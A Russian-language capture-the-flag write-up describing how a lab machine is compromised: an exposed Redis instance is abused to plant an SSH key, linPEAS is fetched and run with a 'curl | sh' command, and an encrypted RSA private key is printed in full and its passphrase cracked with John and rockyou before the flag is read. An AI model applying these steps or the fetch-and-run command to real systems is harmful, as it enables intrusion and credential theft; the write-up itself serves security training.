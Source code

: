 итак начнём


для начала просканируем порты:

![](./imgs/nmap.jpg)

так, мы выяснили что у нас открыты порты:

22 и 2222 - для доступа по ssh (нам пока не интересен , т.к у нас нет ни пароля, ни ключа)

80(http) и 443(https) (тоже не интересно (принадляжат какомуто сайту))

6379 - redis (а вот это уже интересно)


так мы узнали что здесь стоит БД-redis , при этом нам даже дали пароль к ней: surctfredis

а теперь нам нужно узнать как к ней подключиться:

![](imgs/redis_how_to_connect.jpg)

так теперь нам нужно установить redis-tools , в котором есть утилита redis-cli для подключения к БД redis:

![](imgs/redis_tools_install.jpg)

теперь можно попробовать подключиться:

![](imgs/rediscliconn.jpg)

ураа мы подключились, но что дальше?

дальше нам нужно найти RCE эксплойт (Remote Code Execution):

![](imgs/redisrceexplotation.jpg)

![](imgs/how_to_add_your_public_sshkey.jpg)

для начала сгенерируем свой SSH ключик

![](imgs/sshkeygen.jpg)

затем закинем его в файлик перед этим добавив в него пустые строки в начале и в конце, а также импортируем его в redis:

![](imgs/savepubkeyastxtwithnewlines_and_importthemtoredis.jpg)

есть, мы сохранили наш ключик в ключ(переменную) с названием ssh_key

теперь снова подключимся к редису и попробуем сменить нашу директорию на .ssh/ , у пользователя redis:

![](imgs/redissetconfigdirtosshfolderfailure.jpg)

не получилось из-за того что конфиг защещён

ладно тогда посмотрим где мы есть:

![](imgs/configsshNICE.jpg)

оо дак здесь по дефолту стоит папка с ключами , ничёсе.

тогда просто сохраним и проверим наш ключик: 

![](imgs/YeahWeDidIt.jpg)

вроде получилось , попробуем подключиться по ssh c нашим ключиком:

![](imgs/NiceSSH.jpg)

есть ураааа , мы подключены.

теперь нам нужно повысить свои привелегии.

есть такая утилита- linPEAS, она нужно чтобы посмотреть возможные уязвимости [ссылка](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS):

Вот команда для быстрого старта linPEAS 

>  curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh

ну что запускаем и смотрим.

где то в серидине она выдала нам ключик от пользователя test:

![](imgs/sshbackupkeyfound.jpg)

сохраним его командой:

>echo "-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,6DE64BB52B779C56DC5B28F04988FB4C
>
>+eGzLWPQCs2RC0gu94QzDHLJEsck9qkm5LgqOAoHGjrShGtb80XODWHdzE+PADUL
r4dUdfhV4+n+udALipoaYcwYDZnqUzBqSRjG9/4baisuoYK6PNki8kXm5JAbv5gG
8bSwCKITctOHX57340RNsEdZPYjz0bDzRTd1Bqv5OALChtBxXrzxIG41Ud6ydpgQ
kR4Xjq2l0j58sUOkDPkyTwBvy/gWenMcKYBDEPNTbaSZkstqJXBKGsSGhmLlUhEB
em01BwMAVbZROr22XkbIjEiXwPNgSMKFaCI+mShB4/KiflogZWPqdE0MYOTiVPuK
J1zAfYf7fi85Dj9XjEJicmE/6TkY1VdSj6n8XcIrxcghXt5Lbfi5LR7k5khh+P1d
qBFhgAy3hGEJzx+zFWMXfbgxVs8gN9BuJtJDcAj6t6zJrJ+UMAPGwfq+u/csem/T
AQPCJA2En/iRfzCYmqnFw9A7jCXzvUhyhKw6/idxZDQ8jf8hv0cVCeZPHcU2RlzB
+30s0P81C2LOGNmyR5K/9qPBjTnTYoCReUtMbmzoFqApTCF20EzGWFAMwIaOYfBJ
bnBf9m8QK1l0omDOhc2n4wO0+p+6lHlflUbURqJiuDkHgqVIluX+c5sCprzmAp8Z
9DucdBhkDujj3NVN5VKN47v8TI9u0lGqbFJx3qLDhAFyizAJovSrC/VXAFm9wQc/
13Z+xmQ1QKcYVfOsF50orVjhYQe1xrxEeCToagH+1aMFbqpVW35hA05gGWcLkr78
tolI4IOaOhjbcvMmv+FyZXWQPhrfnj0EWpVy5mvK7CdyQKJqpUqCqqmgwJcG3Kbe
bwsr/SInYdhHPHINcZDuq/ik55ekk6RMRAPcfpYuMOjKDKzHqzCoj1oFT3UrYaAR
w37GGqknQi1DJDHTc+slsx7YFFPlUBA9/m9kxXg0DyiAHLiuv5pxeBjRXM52YPSh
fa255QTwfiNCQeixUauxjQcIR2JRJnMjRpefKdt/xdGEBwNrKJdLP38olZNV+TNs
lzzZkw72YhDfUfWxAMNW48JDK96V+uaHc0WrX5HadzIx/mlueBH2tG/PJNDKaXAf
ri+v8N0MZhBlqeNweGhBUMOL87OiSd2zV2sWHsGF/V+ociC0PjBUR3XrNd6YKQM0
4p1yDWfmkFqAmd/+Bf9t+wvGvEgkAl0JY1nuc69mSKmI+CRbBnG4lvcDq6h5sX66
VwqUugTQtQUzHrnaGy46AK/a199F21wnSsLXWGBCFSIjgQ2rGDEMmwc09PYCuH1L
xsTYTXpq0R1ZQkwK/eX3MSBTTcYvMLt13Rukz2YhLt6gFvw3bAVx9hYAeIV36/Fd
/hdzSXQ86DbIr7v839gTX5CO0+OsMzukHfqg1SCvB3BFLu4SEmvBD5pmTy6LGIjt
HZKz2Al0YUSrpV0rwEsQ2701S9VHnDPpTeeUsJFuLOq3792F308q7n6BJHby++my
N/q2JNbjSmmlUcJPttlV8C9cyTCEXpM1lnz8HHyJPvUvfmX2frB1BdHPKKb5SrjZ
Ujf6vp7pIjsgq9nEVCSIqymqde3mBrTEEB4qS0hTn/fSu27PcYeuiDh07XQ9FX6W
-----END RSA PRIVATE KEY-----" > hellokey

![](imgs/keyssh.jpg)

поменяем ему права доступа на 600 и попробуем подключиться:

![](imgs/sshtrytoconnectfixpermissionsandpassword.jpg)

о нет он зашифрован , будем брутфорсить.

для начала распакуем словарь rockyou, в kali linux он по умолчанию находится в /usr/share/wordlists/rockyou.txt.gz :

![](imgs/unpackdefaultrockyouinkali.jpg)

теперь переделаем наш ключ в хэш для john:

![](imgs/ssh2john.jpg)

и теперь можно брутить:

![](imgs/bruteforce.jpg)

так теперь мы знаем пароль от ключа, попробуем подключиться по ssh с паролем - pokemon, и взять флаг в user.txt:

![](imgs/connect_ls_catusertxt_and_getflag.jpg)

Урра наш флаг:

>surctf_f1rst_p3ntest